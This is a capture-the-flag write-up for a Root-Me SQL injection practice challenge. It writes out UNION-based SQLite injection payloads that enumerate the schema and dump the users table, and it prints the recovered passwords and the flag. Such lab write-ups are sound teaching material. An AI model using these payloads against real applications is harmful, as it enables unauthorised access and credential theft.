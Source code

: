 ```yaml
---
layout: default
title: SQL-injection-String
---
```


I went to `http://challenge01.root-me.org/web-serveur/ch19/?action=recherche` and there I saw basic `SQLi`.

When supplying: `bla'` I got:
```
Warning: SQLite3::query(): Unable to prepare statement: 1, near "'%'": syntax error in /challenge/web-serveur/ch19/index.php on line 150
near "'%'": syntax error
```

So, this is `SQLite3` db, like the challenge here: https://avishaigonen123.github.io/CTF_writeups/websec.fr/level01.html

So, let's start and fetching:
```
bla' Union select SQL from sqlite_master -- 
```
We got:
```
Warning: SQLite3::query(): Unable to prepare statement: 1, SELECTs to the left and right of UNION do not have the same number of result columns in /challenge/web-serveur/ch19/index.php on line 150
SELECTs to the left and right of UNION do not have the same number of result columns
```

So, we need to add more columns:
```
bla' Union select SQL,null from sqlite_master -- 
```
Now we got the tables:
```
CREATE TABLE news(id INTEGER, title TEXT, description TEXT)
CREATE TABLE users(username TEXT, password TEXT, Year INTEGER)
```

Let's dump the data:
```
bla' Union select username,password from Users -- 
```
the response is:
| username | password | 
| ---- | --- |
| admin  |  (c4K04dtIaJsuWdi) |
|user1 |(OK4dSoYE)|
|user2 |(8Wbhkzmd)|


**Flag:** ***`c4K04dtIaJsuWdi`***
